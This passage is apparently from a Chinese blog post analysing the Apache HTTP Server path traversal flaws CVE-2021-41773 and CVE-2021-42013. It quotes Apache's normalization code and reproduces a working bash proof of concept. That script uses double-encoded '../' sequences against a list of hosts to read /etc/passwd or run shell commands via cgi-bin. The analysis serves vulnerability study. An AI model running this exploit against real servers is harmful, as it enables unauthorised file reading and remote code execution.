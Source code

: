 可以看到，在该版本的代码特别的针对了%2e

```c
  /* Remove /xx/../ segments (or /xx/.%2e/ when
                 * AP_NORMALIZE_DECODE_UNRESERVED is set since we
                 * decoded only the first dot above).
                 */
                n = l + 1;
                if ((path[n] == '.' || (decode_unreserved
                                        && path[n] == '%'
                                        && path[++n] == '2'
                                        && (path[++n] == 'e'
                                            || path[n] == 'E')))
                    && IS_SLASH_OR_NUL(path[n + 1])) {
                    /* Wind w back to remove the previous segment */
```

但是他们好像忘记了URL双重编码...

所以POC(CVE-2021-42013):

```
# Exploit: Apache HTTP Server 2.4.50 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.50
# Tested on: 2.4.50
# CVE : CVE-2021-42013
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
echo ./PoC.sh targets.txt /bin/sh id

exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami
```



在2.4.50 -> 2.4.51版本中代码变更内容如下:

![image-20211215011406842](../assets/2021-11-30-CVE--2021--41773%E8%AF%A6%E7%BB%86%E5%88%86%E6%9E%90/image-20211215011406842.png)
